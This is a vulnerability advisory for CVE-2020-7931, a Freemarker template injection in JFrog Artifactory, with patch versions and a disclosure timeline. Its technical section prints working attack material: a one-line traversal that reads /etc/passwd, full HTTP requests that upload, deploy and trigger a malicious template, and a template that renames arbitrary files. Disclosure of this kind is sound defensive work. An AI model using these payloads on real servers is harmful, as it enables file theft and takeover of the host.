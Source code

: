 # JFrog Artifactory Insecure Freemarker Template Execution


## Vendors

* JFrog


## Affected Products

* JFrog Artifactory (6.10.1 tested, other versions are also affected)


## Summary

JFrog Artifactory allows an authenticated attacker to upload, deploy, and execute Freemarker templates. A malicious Freemarker template can execute sensitive Java functions due to the use of the DefaultObjectWrapper class within Artifactory. An attacker can leverage this to read and write arbitrary files on the Artifactory instance.


## Mitigation

* JFrog has released a patch for the following versions: 5.11.8 | 6.1.6 | 6.3.9 | 6.7.8 | 6.8.17 | 6.9.6 | 6.10.9 | 6.11.7 | 6.12.3 | 6.13.2 | 6.14.2 | 6.15.1 | 6.16.0


## Credit

This issue was identified by Ryan Hanson of Atredis Partners


## References

 * CVE-2020-7931
 * https://www.jfrog.com/confluence/display/RTF/Release+Notes#ReleaseNotes-Artifactory6.15.1


## Report Timeline

2019-09-20: Atredis Partners contacted the Apache Freemarker project to determine if this behavior was known and reported a similar issue in their demo application.

2019-09-25: Apache Freemarker resolved this issue in their demo application and recommends use of SimpleObjectWrapper instead of DefaultObjectWrapper going forward.

2019-10-25: Atredis Partners provided details of this issue to JFrog as it applies to the Artifactory product.

2019-12-09: Atredis Partners provided a copy of this advisory to CERT/CC and an update to JFrog.

2019-12-10: JFrog responded with information about available patches for this issue.

2020-01-23: Atredis Partners published this advisory.


## Technical Details

JFrog allows unauthenticated users to execute Freemarker templates that have been deployed and marked as filtered resources. This can be abused to read and write files on the filesystem of the Artfactory server. 

These attacks work by reusing Java objects that are within scope of the template. 

To read a file, the template first accesses the security object exposed by Artifactory and then traverses the object tree to gain access to a URI and URL object, which are then used to get the contents of a file. This can be represented with a single line: 

```
security.getClass().getProtectionDomain().getClassLoader().getURLs()[0].toURI().resolve('/etc/passwd').toURL().getContent()
```

To demonstrate the file read attack, a malicious Freemarker template must first be uploaded:

```
POST /artifactory/ui/artifact/upload HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
X-Requested-With: artUI
X-ARTIFACTORY-REPOTYPE: Maven
Content-Type: multipart/form-data; boundary=---------------------------929091233030188921154790807
Content-Length: 933
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

-----------------------------929091233030188921154790807
Content-Disposition: form-data; name="file"; filename="ssti.xml"
Content-Type: text/xml

<#attempt>
    <#assign filename=request.getParameter("filename")>
    <#assign protected_domain=security.getClass().getProtectionDomain()>
    <#assign urls=protected_domain.getClassLoader().getURLs()>
    <#assign file_url=urls[0].toURI().resolve(filename).toURL()>
    <#assign file_content=file_url.getContent()>
print("".join([<#list 0..999999999 as _><#assign byte=file_content.read()><#if byte == -1><#break></#if>chr(${byte}), </#list>]))
<#recover>
print("Failed to read ${filename}")
</#attempt>
-----------------------------929091233030188921154790807--
```

The next request deploys the uploaded file:

```
POST /artifactory/ui/artifact/deploy HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Referer: http://192.168.1.1:8081/artifactory/webapp/
Content-Type: application/json;charset=utf-8
Request-Agent: artifactoryUI
X-Requested-With: artUI
Content-Length: 308
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

{"action":"deploy","unitInfo":{"artifactType":"base","path":"/ssti.xml","mavenArtifact":false,"valid":true,"origArtifactType":"base","debianArtifact":false,"vagrantArtifact":false,"composerArtifact":false,"cranArtifact":false,"bundle":false,"type":"xml"},"fileName":"ssti.xml","repoKey":"libs-release-local"}
```

The deployed artifact is marked as a filtered resource, which will cause Artifactory to use the Freemarker template engine to process it:

```
POST /artifactory/ui/filteredResource?setFiltered=true HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Referer: http://192.168.1.1:8081/artifactory/webapp/ 
Content-Type: application/json;charset=utf-8
Request-Agent: artifactoryUI
X-Requested-With: artUI
Content-Length: 50
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

{"repoKey":"libs-release-local","path":"ssti.xml"}
```

Finally, a request to `/artifactory/libs-release-local/ssti.xml?filename=/etc/passwd` is used to return the contents of the file or folder passed in the filename parameter. 

In addition to a file read, an attacker can also use this to create a File object with an arbitrary path if the web application is running in Tomcat's Catalina servlet container, which is the case with Artifactory. After creating two File objects, the `renameTo()` method can be used to move the file to an arbitrary location. 

The template below demonstrates use of the `renameTo()` method:

```
<#assign protected_domain=security.getClass().getProtectionDomain()>
<#assign loader=protected_domain.getClassLoader()>
<#assign root=loader.getResources()>
<#assign context=root.getContext()>
<#assign host=context.getParent()>
<#assign orig_appbase=host.getAppBaseFile()>

${host.setAppBase("/opt/jfrog/artifactory/README.txt")} 
<#assign source_file=host.getAppBaseFile()>

${host.setAppBase("/opt/jfrog/artifactory/README2.txt")} 
<#assign dest_file=host.getAppBaseFile()>

orig: ${orig_appbase}
source_file: ${source_file}
dest_file: ${dest_file}
renamed?: ${source_file.renameTo(dest_file)?string}
restoring... ${host.setAppBase(orig_appbase?string)}
restored: ${host.getAppBaseFile()}
```

The template above works by traversing the object hierarchy to gain access to the `org.apache.catalina.core.StandardHost` object and then converting a string to a File by first calling `setAppBase()` with the string and then accessing the File object by calling `getAppBaseFile()`. This allows for a source and destination file to be created and used in a call to `renameTo()`. In this case it simply renames the `README.txt` file to `README2.txt`, but this can also be used by an attacker to compromise the Artifactory server, by rewriting `.ssh/authorized_keys` or another sensitive file.
